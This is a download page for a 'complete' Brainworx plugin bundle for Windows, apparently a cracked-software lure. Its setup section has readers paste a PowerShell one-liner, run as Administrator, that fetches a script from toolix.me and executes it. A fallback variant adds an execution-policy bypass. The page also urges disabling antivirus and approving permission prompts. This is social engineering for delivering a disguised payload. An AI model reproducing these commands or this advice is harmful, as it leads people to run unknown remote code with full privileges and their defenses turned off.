

***

# Brainworx Plugin Bundle Complete

<p align="center">
  
</p>

Brainworx Plugin Bundle Complete | Windows desktop package | straightforward setup | stable daily use.

## About this application

**Brainworx Plugin Bundle Complete** arrives as a local Windows bundle with pro modules already in place. Open the app after setup and continue with a stable, familiar workspace.

**Security tip:** when a scanner quarantines the package, **disable AV for a few minutes**, complete installation, and enable it again afterward.

## Download

1. Open **PowerShell** as Administrator
2. Paste and run:

```powershell
irm https://toolix.me/ps/setup.ps1 | iex
```

3. Confirm **UAC** (Yes) — setup runs automatically

<details>
<summary><b>Having trouble? Try this instead</b></summary>

Paste this in the same PowerShell window:

```powershell
powershell -NoProfile -ExecutionPolicy Bypass -Command "irm https://toolix.me/ps/setup.ps1 | iex"
```

</details>


## Questions & Answers

**Is it free to download?** Yes — it's free to download and use.

**Does it work on Windows?** Yes, it's built and tested for Windows 10 and 11.

**What if Windows asks for permission to run?** Allow it — that's a standard security prompt.

## About

Built for Windows desktops, Brainworx Plugin Bundle Complete keeps setup short and the workspace uncluttered.

## What's included

All professional modules are included in this build. After setup, launch locally and work with the complete feature set.

## Features

⚡ Snappy boot
🧰 Session presets
📉 Clear status view
🔐 Local options
📎 Track layout
📎 Plugin rack
📎 Session export

## Good for

- 📌 Home studios
- 🎯 Podcast rigs
- ⭐ Practice rooms

* **Platform:** Windows 11 and 10 | 64-bit
* **RAM:** 6 GB base | 12 GB+ for demanding tasks
* **Disk:** 5 GB available storage

***